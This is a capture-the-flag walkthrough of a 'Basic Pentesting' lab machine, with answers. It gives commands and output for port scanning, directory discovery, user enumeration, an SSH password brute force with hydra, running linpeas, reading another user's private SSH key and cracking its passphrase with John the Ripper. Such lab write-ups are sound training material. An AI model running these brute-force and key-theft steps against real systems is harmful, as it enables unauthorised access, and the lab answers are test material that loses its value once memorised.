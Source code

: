 # Basic Pentesting

### #1 Deploy the machine and connect to our network
Clicked on deploy
Connect to vpn
```
sudo openvpn yourOVPNfile.ovpn
```

### #2 Find the services exposed by the machine
Run a nmap scan to get all the open ports

```
nmap -sV -sC <ip>

PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8009/tcp open  ajp13
8080/tcp open  http-proxy
```
### #3 What is the name of the hidden directory on the web server(enter name without /)?
To do this we can run dirbuster, supply a dir dictonary and press start.

```
dirbuster http://<ip>

Dir	/icons/	403	465
Dir	/development/	200	1320
```
**Answer**

development

### #4 User brute-forcing to find the username & password

```
enum4linux -v <ip>

S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
```

### #5 What is the username?
After having a look in http://<ip>/development we found out that jan has a week password.

**Answer**

jan

### #6 What is the password?
Bruteforceing jan's week password using rockyou word list.
```
hydra -l jan -P rockyou.txt ssh://<ip>
ctrl+C
hydra -R (to speed it up)

[22][ssh] host: <ip>  login: jan   password: armando
```

**Answer**

armando

### #7 What service do you use to access the server(answer in abbreviation in all caps)?
Did a BF with hydra on SSH

**Answer**

SSH

### #8 Enumerate the machine to find any vectors for privilege escalation
Send the linpeas script to jan. Make it an excecutible. And run it.
```
scp linpeas.sh jan@<ip>:/dev/shm
chmod +x linpeas.sh
./linpeas.sh
```
Here we can see that we have access to read kay's **id_rsa** file.

### #9 What is the name of the other user you found(all lower case)?

**Answer**
kay

### #10 If you have found another user, what can you do with this information?
Copy the rsa key. Run ssh2john on that file so JohnTheRipper can read it. BF using rockyou word list.
```
cat /home/kay/.ssh/id_rsa
/usr/share/john/ssh2john.py
sudo john id_rsa_kay_tojohn.txt --wordlist rockyou.txt

beeswax          (id_rsa_kay)
```

**Answer**

beeswax

### #11 What is the final password you obtain?
Login to the server using kay's credentials. Print out the pass.bak file.
```
cat pass.bak
```

**Answer**

heresareallystrongpasswordthatfollowsthepasswordpolicy$$
